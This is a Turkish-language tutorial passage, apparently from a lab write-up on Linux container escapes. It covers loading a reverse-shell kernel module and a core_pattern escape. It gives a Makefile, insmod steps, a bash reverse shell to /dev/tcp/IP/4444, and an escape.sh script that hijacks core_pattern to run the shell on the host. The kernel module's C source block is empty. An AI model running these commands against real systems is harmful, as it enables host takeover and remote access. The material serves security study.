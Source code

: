 ```c
```

Bu da bizim makefile dosyamız olacaktır.

```makefile
obj-m +=revshell.o

all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean

```

Zafiyetli makineye girdiğimiz de ilk olarak kendi ip'mizi `ifconfig` ile alıp revshell.c nin içerisine atmaktır. Arından zafiyetli makinede başka bir shell alıp orada `nc -lvnp 4444` ile dinlemeye başlamaktır.

Bundan sonra gidip ilk olarak `make` atacağız ki modülümüz derlensin. Arından `insmod revshell.ko` yazarak modülümüzü yüklüyoruz. Bunların hepsini doğru yapılırsa dinleme yaptığımız yere shell gelmiş olacaktır.

### 1.5 Kernel Exploitation

#### Core Pattern

**core\_pattern**: Linux işletim sistemi çekirdeğinde çökmelerde oluşan çekirdek döküm dosyalarının adını ve konumunu belirleyen bir sistem ayarıdır.

Bu zafiyet core\_pattern dosyası sayeside vardır. Bu zafiyet için ya makinede privilege escalation yapmamız gerekiyor. Ya da düzgün apparmor'un kapalı olması gerekiyor

**Requirements**

* net-tools
* nano (optional)
* netcat
* kmod
* gcc

**Exploit**

**Zafiyetli Makina**: `docker run -it --rm --cap-add=SYS_ADMIN --secuity-opt apparmor:unconfined corepattern bash`

Burada ilk olarak **crash.c** diye bir c kodumuz olucak. Bu kodun tek amacı bize Segmantation Fault vermesi olucak. Bu kod sayesinde bizim **core\_pattern** tetiklenecek.

Birde **shell.sh** kodumuz olucak bu bildiğimiz basit bir reverse shell kodu. Alttaki gibidir.

```sh
#!/bin/bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/IP/4444 0>&1"
```

Son olarak **escape.sh** kodumuz olucak bu kod sayesinde kaçma işlemini yapacağız.

```sh
#!/bin/bash

overlay=`sed -n 's/overlay \/ .*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

mkdir /newproc
mount -t proc proc /newproc

cd /newproc/sys/kernel
echo "|$overlay/need/shell.sh" > core_pattern
sleep 6
/crash

```